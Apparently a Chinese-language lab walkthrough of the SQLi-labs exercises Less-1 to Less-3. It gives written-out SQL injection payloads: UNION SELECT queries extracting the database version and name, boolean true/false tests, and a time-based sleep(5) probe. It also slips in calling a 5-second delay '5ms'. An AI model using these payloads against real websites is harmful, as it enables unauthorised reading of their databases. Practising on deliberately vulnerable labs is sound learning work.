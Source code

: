 


## Less-1

 + 是否有报错,是否回显(数据库数据回显界面,首先考虑联合查询方式)

+ 有报错

 - 字符型注入

- 闭合方式:
 '
  单引号

+ 注入Payload:(#urlencode=%23)

```bash
    ?id=-1' union all select 1,version(),3   %23     // #
    ?id=-1' union all select 1,version(),3  --+      //--+
    ?id=-1' union all select 1,version(),3  --%20    // --空格
```
## Less-2

 + 变换ID参数界面有回显， 如果存在SQL注入漏洞，首先考虑联合查询方式

+ 输入单引号，界面有报错， 从报错信息中可知是，

+ 注入方式:
数字型注入

+ 注入Payload:

```bash
    ?id=1 and 1=2 --+  
    ?id=1 and 1=1 --+
```

+ 页面有变化，表明存在boolean-based blind sql injection 

+ 数字型没有闭合方式，直接 注释掉后面的sql 语句即可

```bash
    ?id=1 and sleep(5)--+ 
```

+ 网络时间线 为5ms ，则可判断存在time-based bling sql injection 延时注入的漏洞

+ Payload:

```bash
    ?id=1 and 1=2 union all select 1,database(),3 --+  
```   

## Less-3

+ 输入不同ID参数，页面显示不同，说明与数据库有交互，
输入数字后面带个单引号，提示有报错
存在报错注入
